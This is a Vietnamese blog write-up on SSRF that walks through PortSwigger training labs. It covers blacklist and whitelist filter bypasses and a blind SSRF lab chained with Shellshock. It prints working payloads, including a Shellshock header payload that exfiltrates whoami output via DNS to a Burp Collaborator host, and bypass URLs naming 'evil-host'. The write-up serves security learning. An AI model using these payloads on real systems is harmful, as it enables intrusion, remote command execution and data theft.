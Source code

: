 ```yaml
---
title: Learning about Sever Side Request Forgery
published: 2024-10-07
tags: [HTB, Pentest]
description: Learning about SSRF Vuln
category: Learning
author: Trohan0x00
draft: false
image: "/assets/post_image/ssrf.png"
---
```



# Server Side Forgery Request (SSRF) 

## I. SSRF là gì?
![image](https://hackmd.io/_uploads/HkqFQp1kyl.png)
* Lỗ hỏng `
SSRF (Server-Side Request Forgery)` hiểu đơn giản là lỗ hỏng mà các attacker có thể lừa máy chủ thực hiện các `Requests HTTP` thay cho chúng. Điều này xảy ra khi ứng dụng web chấp nhận URL hoặc các đầu vào từ người dùng và sử dụng chúng để thực hiện các yêu cầu đến các tài nguyên bên ngoài hoặc nội bộ mà không xác thực hoặc kiểm tra nguồn gốc của chúng một cách đúng đắn.

## II. Hậu quả do SSRF gây ra là gì
* Một cuộc tấn công `SSRF` thành công thường dẫn đến các hành động trái phép hoặc truy cập dữ liệu trong tổ chức. Điều này có thể xảy ra trong ứng dụng dễ bị tấn công hoặc trên các hệ thống phía sau mà ứng dụng có thể giao tiếp. Trong một số tình huống, lỗ hổng SSRF có thể cho phép kẻ tấn công thực hiện lệnh tùy ý.
* Khai thác `SSRF` có thể dẫn đến kết nối với các hệ thống bên thứ ba bên ngoài, gây ra các cuộc tấn công tiếp diễn ác ý. Những cuộc tấn công này có thể xuất hiện như bắt nguồn từ tổ chức đang lưu trữ ứng dụng dễ bị tấn công.


## III. Các loại SSRF phổ biến

* Theo `Portswigger` thì mình sẽ chia ra các trường hợp tấn công `SSRF` phổ biến mà các attacker có thể sử dụng thành 2 loại là `Active SSRF` và `Blind SSRF` trong đó:
    1. `Active SSRF` là loại phổ biến nhất, khi kẻ tấn công có thể thấy được phản hồi ngay lập tức từ máy chủ sau khi thực hiện yêu cầu `SSRF`. Attacker sử dụng loại `SSRF` này để khám phá các dịch vụ mạng nội bộ, truy cập tài nguyên không thể truy cập từ bên ngoài, và đọc nội dung từ các dịch vụ đó.
    * Ví dụ:
        * Các Attacker nhập URL nội bộ, như `http://localhost/admin`, để tải một trang quản trị nội bộ.
        * Kết quả của yêu cầu này (nội dung của trang quản trị) sẽ được trả về và hiển thị cho Attacker.
    2. `Blind SSRF` xảy ra khi Attacker không thấy được phản hồi trực tiếp từ máy chủ. Tuy nhiên, yêu cầu vẫn được thực hiện từ phía máy chủ đến mục tiêu mà kẻ tấn công mong muốn. Loại `SSRF` này khó khai thác hơn vì kẻ tấn công không thể xác minh ngay lập tức kết quả của cuộc tấn công.
    * Ví dụ:
        * Attacker tạo ra một yêu cầu `SSRF` để truy cập một tài nguyên nội bộ.
        * Máy chủ thực hiện yêu cầu, nhưng không trả lại phản hồi cho kẻ tấn công, khiến cho việc xác định thành công hay thất bại trở nên khó khăn.
        * Tuy nhiên, kẻ tấn công có thể khai thác các tín hiệu gián tiếp, như qua việc gửi dữ liệu đến máy chủ bên ngoài mà họ kiểm soát để nhận được thông tin (ví dụ qua `DNS exfiltration`). 

## IV. Cách khai thác SSRF
### 1. Active SSRF
* Để đi một cách đồng bộ thì mình sẽ thực hành lần lượt các hình thức tấn công của lỗ hỏng ở trên `Portswigger`. Đầu tiên đối với `Active SSRF` thì ta có nhiều hình thức để tấn công như:
    1. Tấn công Server là hình thức tấn công cơ bản nhất mình sẽ nói sau.
    2. Tấn công Bypass Blacklist
    3. Tấn cộng dựa vào Whitelist

* Ta sẽ đi thực hành lần lượt các labs, để nhanh gọn nên mình sẽ chỉ nêu những ý cần nắm cũng như các keyword để thực hiện được các lab này.

#### Lab 1:  Basic SSRF against the local server
* ![image](https://hackmd.io/_uploads/SJJ7QC1yJg.png)
* Với Description trên ta biết được admin interface sẽ nằm ở `http://localhost/admin` vì thế ta cần inject được payload để cho server forward đến `/admin`. Vì lab đầu rất đơn giản nên mình sẽ đi nhanh.
* Dùng `Burp` và check ở phần Checkstock của web ta bắt được request 
    ![image](https://hackmd.io/_uploads/BJmQNRkJke.png)
* Thay thế phần `URL` ở StockAPI bằng payload của ta `http://localhost/admin`
    ![image](https://hackmd.io/_uploads/r1UD4C1J1g.png)
* Render được trang của admin tiếp tục dùng payload `http://localhost/admin/delete?username=carlos` để tiến hành xóa user carlos ra khỏi admin panel 

    ![image](https://hackmd.io/_uploads/Byao4RJkke.png)
#### Lab 2: Basic SSRF against another back-end system
![image](https://hackmd.io/_uploads/Byy-rR1k1e.png)
* Lab này cũng tương tự như Lab 1 nhưng admin interface ở đây sẽ là địa chỉ ip có format là `192.168.0.x:8080` ta vẫn không biết rõ địa chỉ ip của admin nên ta cần có sử trợ giúp của `Intruder`.
    ![image](https://hackmd.io/_uploads/HyaMUCJJyx.png)
* Ta sẽ add position ở x và chọn `Snipper Attack` với payload là Numberlist
    ![image](https://hackmd.io/_uploads/rJW38Ckyyl.png)
* Cận sẽ là từ 1-255, và tiến hành bruteforce
    ![image](https://hackmd.io/_uploads/SyvaLRyJJl.png)
* Kết quả nhận được 1 payload với Status 200 ở ip là `http://192.168.0.50:8080/admin` quay trở lại Repeter và tiến hành khai thác như Lab 1
#### Lab 3: SSRF with blacklist-based input filter
![image](https://hackmd.io/_uploads/r1c6v0yykg.png)
* Lab này sẽ là kỹ thuật `Bypass Blacklist SSRF`. Nói một chút về kỹ thuật này thì một số ứng dụng chặn các đầu vào chứa tên miền như `127.0.0.1` và `localhost`, hoặc các `URL` nhạy cảm như `/admin`. Trong trường hợp này,ta có thể vượt qua bộ lọc bằng các kỹ thuật sau:
    * Sử dụng một đại diện IP thay thế cho `127.0.0.1`, chẳng hạn như `2130706433, 017700000001, hoặc 127.1`.
    * Sử dụng double enc URL để có thể bypass trong một vài trường hợp
* Quay trở lại với lab thì tương tự như các lab trước nhưng ở đây việc nhập url không còn đơn giản như trước do server đã deploy một lớp `filter` để lọc `Untrusted Data` 
    ![image](https://hackmd.io/_uploads/Hka6iCJ1Jx.png)
* Khi ta nhập url thông thường thì sẽ nhận được thông báo blocked như này. Vì thế ta có thể thay đổi `locahost` thành địa chỉ ip `127.0.0.1` nhưng vẫn bị blocked. Để bypass ta có thể đổi thành `127.1` và vẫn bị blocked =)))
* Suy nghĩ một lúc thì mình quyết định Double Url enc luôn thằng admin, có vẻ như vẫn đề không đến từ địa chỉ ip của ta mà là đến từ route `/admin` nên mình sẽ enc chữ a thành `%25%36%31` từ đó ta có payload `http://127.1/%25%36%31dmin` 
![image](https://hackmd.io/_uploads/BJmIa0JJyx.png)
* Ta đã tiêm thành công và tiến hành solved như các lab trước thôi

#### Lab 4: SSRF with whitelist-based input filters
![image](https://hackmd.io/_uploads/BJff0AJ1ye.png)
* Lab này sẽ là kỹ thuật lợi dụng Whitelist để bypass
* Một số ứng dụng chỉ cho phép các đầu vào khớp với whitelist các giá trị cho phép. Ta có thể bypass bằng cách khai thác các sự không nhất quán trong quá trình phân tích cú pháp URL.
    * Sử dụng ký tự `@`: Chèn thông tin đăng nhập vào URL trước tên miền (hostname), ví dụ: `https://expected-host:fakepassword@evil-host.`
    * Sử dụng ký tự `#`: Đánh dấu phân đoạn URL (fragment), ví dụ: `https://evil-host#expected-host.`
    * Sử dụng phân cấp `DNS`: Tận dụng phân cấp tên miền để đưa tên miền cần thiết vào một tên miền `DNS` đầy đủ mà bạn kiểm soát, ví dụ: `https://expected-host.evil-host.`
    * URL-encode hoặc double-encode: Mã hóa URL hoặc mã hóa kép để làm rối loạn việc phân tích URL.
* Đến với Lab ta tiến hành check ở phần CheckStock như cũ 
![image](https://hackmd.io/_uploads/B1p8kJeJkx.png)
* Ta nhận thấy rằng whitelist domain name của chúng ta phải là `stock.weliketoshop.net` vì thế ta có thể sử dụng các cách bypass ở bên trên để có thể giải quyết bài này
* Ban đầu mình khá loay hoay với việc bypass này do thử một lúc lâu vẫn không tìm ra được cách bypass whitelist này
    * Và cuối cùng payload đúng là `http://localhost%2523@stock.weliketoshop.net/admin` ta sẽ dùng ký tự `#` để thực hiện. Nhưng cần phải kết hợp với Double Url enc để enc thành `%2523` để qua mặt được filter và theo công thức thì phía sau sẽ là expected_host và route `/admin` 
![image](https://hackmd.io/_uploads/SJZJ-1ly1l.png)
* Tiến hành khai thác xóa user như các lab truóc là xong.

### 2. Blind SSRF 
* Đến với phần này mình sẽ tập trung đến 1 Lab Expert duy nhất là ` Blind SSRF with Shellshock exploitation`
    ![image](https://hackmd.io/_uploads/HkzytMlJkl.png)
* Như đã tìm hiểu ở trên thì chúng ta đã nắm rõ được cơ chế cũng như khả năng tác động của `Blind SSRF`do đó mình sẽ đi thằng vào vấn đề chính. Tên Lab như ta đã thấy là khai thác `Blind SSRF` với việc khai thác `Shellshock`. Vậy, `Shellsock` là gì?
    ![image](https://hackmd.io/_uploads/rkaBKMgk1l.png)
* `Shellshock` là một lỗ hổng bảo mật nghiêm trọng trong `Bash (Bourne Again Shell)`, một trình thông dịch dòng lệnh phổ biến trên nhiều hệ điều hành `Unix` và `Linux`. Lỗ hổng này được phát hiện vào năm 2014 và có thể cho phép kẻ tấn công thực thi mã tùy ý `(RCE)` trên hệ thống bị ảnh hưởng chỉ bằng cách truyền dữ liệu độc hại thông qua các biến môi trường. 
* Nếu một ứng dụng web hoặc dịch vụ nào đó (ví dụ như một máy chủ web CGI) sử dụng `Bash` để xử lý dữ liệu đầu vào của người dùng, kẻ tấn công có thể gửi một yêu cầu chứa mã độc trong biến môi trường. Khi Bash xử lý, nó sẽ thực thi mã độc đó.
`env x='() { :;}; echo vulnerable' bash -c "echo this is a test"`
* Trở lại với Lab thì ta được hint một extension của `Burpsuite` dùng để check `Blind SSRF` đó chính là `Collaborator SSRF` nên mình tải về và sử dụng. Tiến hành vào web lab sau khi scan thì đã scan được lỗ hỏng 
    ![image](https://hackmd.io/_uploads/BksicGlyyl.png)
* Như ta thấy, tool check được `SSRF` không chỉ ở `Referer` mà còn ở `User-Agent` tức là phần trình duyệt của user. 
* Minhf search google với keyword là `Shellshock User-Agent` thì tìm được payload để thực hiện inject `() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN`. Tiến hành dùng `Burp Collaborator` để thực hiện lấy `domain` 
    ![image](https://hackmd.io/_uploads/BygshMgyyx.png)
* Ta thay `Referer` bằng địa chỉ description cho và tuy nhiên ta bị thiếu mất ip hoàn chỉnh do đó mình sẽ dùng `Intruder` để brute
    ![image](https://hackmd.io/_uploads/r14mazl1yx.png)
* Payload sẽ dùng `Numbers list` như các bài trước và tiến hành brute. 
    ![image](https://hackmd.io/_uploads/H1iQ_B-kye.png)
* Khi brute xong và tiến hành pol về thì ta nhận được một DNS query với tên user ta cần tìm là `peter-JxMNYr`